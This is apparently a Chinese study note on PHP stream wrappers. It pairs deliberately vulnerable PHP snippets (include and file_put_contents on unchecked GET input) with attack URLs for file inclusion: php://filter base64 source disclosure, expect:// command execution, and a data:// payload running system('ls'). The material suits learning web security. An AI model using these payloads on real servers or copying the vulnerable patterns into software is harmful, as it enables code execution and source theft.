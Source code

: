 #知识点
php封装协议小总结
http://blog.csdn.net/niexinming/article/details/52605144
#实例
##php://stdin
主要用于php cli 的输入

应用：

    <?  
    while($line = fopen('php://stdin','r')){  
        echo fgets($line);  
    }  
    ?>  


##php://stdout

主要用于php cli的输出

应用：

    <?php  
    $fh = fopen('php://stdout', 'w');  
    fwrite($fh, "标准输出php://stdout\n");  
    fclose($fh);  
    fwrite(STDOUT, "标准输出STDOUT\n");  
    ?>  

##php://input

可以读取到post没有解析的原始数据

php代码

    <?php  
     echo file_get_contents($_GET["a"]);  
    ?>  

浏览器访问：http://www.test.com/index.php?a=php://input
	POST：fo=test

当php代码这样写的时候：

    <?php  
    $code = $_GET['a'];  
    include($code);  
    ?>  
并且当php远程包含打开的时候（当allow_url_include=on),就可以造成任意代码执行

##php://output

是一个只写数据流，允许你以print和echo一样的方式写入到输出缓冲区。

当代码是：

    <?php  
     $code=$_GET["a"];  
     file_put_contents($code,"test");   
    ?>  

当访问参数是php://output时，则在此页面输出test

##php://filter

是一种元封装器，设计用于数据流打开时的筛选过滤应用

1. 当php代码是：  

	    <?php  
	    $filename=$_GET["a"];  
	    $data="test test";  
	    file_put_contents($filename, $data);  
	    ?>  

	- 通过访问<http://localhost:8000/phpinput.php?a=php://filter/write=string.tolower/resource=test.php>
	可以往服务器中写入一个文件内容全为小写且文件名为test.php的文件：
	其中 ：
	（1）string.tolower //写入内容全部变成小写
	（2）string.toupper //写入内容全部变成大写
	（3）string.rot13 //写入内容全部对字符串执行 ROT13 编码
	
	- 通过访问：<http://localhost:8000/phpinput.php?a=php://filter/convert.base64-encode/resource=test.php>
	可以往服务器中写入一个文件内容为base64编码且文件名为test.php的文件：

2. 当代码为：

	    <?php  
	    $filename=$_GET["a"];  
	    echo file_get_contents($filename);  
	    ?>  

	- 通过访问：<http://localhost:8000/phpinput.php?a=php://filter/convert.base64-encode/resource=test.php>就可以把test.php的内容以base64编码的方式显示出来

3. 当代码为：

	    <?php  
	    $filename=$_GET["a"];  
	    $data="test test";  
	    include("$filename");  
	    ?>  

	- 通过访问：http://localhost:8000/phpinput.php?a=php://filter/convert.base64-encode/resource=test.php同样可以把test.php的内容以base64编码的方式显示出来

	这里注意：双引号包含的变量$filename，可以当成正常变量执行，而单引号包裹的变量则会当成字符串例如：

		$aa='1';
		echo “$aa”;
		echo '$aa';

##expect://
可以用这个协议执行任意linux的指令

    <?php  
    $code = $_GET['hax'];  
    include($code);  
    ?>  

那么可以用http://localhost/test.php?hax=expect://command 来执行任意linux指令
  
	Note:该封装协议默认未开启  
	为了使用 expect:// 封装器，你必须安装» PECL 上的 » Expect扩展。
	我安装这个拓展屡屡失败，看来不是特殊需求是不会有这样的漏洞的，这里只提个思路
	如果看效果可以去看看这个博客的文章：http://insecurety.net/?p=724

##data://
数据流封装器  
当allow_url_include 打开的时候，任意文件包含就会成为任意代码执行
  
php的代码是：

    <?php  
    $filename=$_GET["a"];  
    include("$filename");  
    ?>  

当访问这样的链接的时候执行系统命令：
[http://localhost:8000/phpinput.php?a=data:text/plain,<?php system('ls')?>]()

